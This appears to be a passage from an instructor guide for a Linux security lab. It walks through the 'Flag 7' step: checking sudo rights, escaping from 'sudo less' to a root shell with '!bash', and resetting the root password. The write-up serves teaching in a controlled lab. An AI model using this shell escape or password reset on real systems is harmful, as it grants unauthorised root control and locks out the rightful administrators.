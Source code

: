 #### Flag_7.

`Find an exploit to gain a root shell. Login as the root user.`

- Remind the students about the `less` vulnerability they learned at the end of our first Linux week.

- Display the `sudo` permissions for sysadmin:

    ```bash
    sysadmin:~\ $ sudo -l
    [sudo] password for sysadmin:
    Matching Defaults entries for sysadmin on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysadmin may run the following commands on
            scavenger-hunt:
        (ALL : ALL) /usr/bin/less
    ```

- Point out that you now have the ability to run `less` with `sudo`.

    - It is always a good idea to check what sudo privileges they may have on a system when doing this kind of work.

- Demonstrate this exploit and drop into a root shell.

    - Run: `touch file && sudo less file`

    - Once inside `less` type `:` then `!bash` and hit enter.

        ```bash
        sysadmin:~\ $ touch file && sudo less file
        root:~\ $
        ```

- Explain that because you now have a root shell, you can change the password for the root user and then login as root.

    - Run: `passwd`

    ```bash
    root:~\ $ passwd
    Enter new UNIX password:
    Retype new UNIX password:
    passwd: password updated successfully
    ```

- Exit back into your `less` shell:

    - Run `exit`.

    ```bash
    root:~\ $ exit
    exit
    ```

- Run `enter` to return to `less` and then `q` to quit.
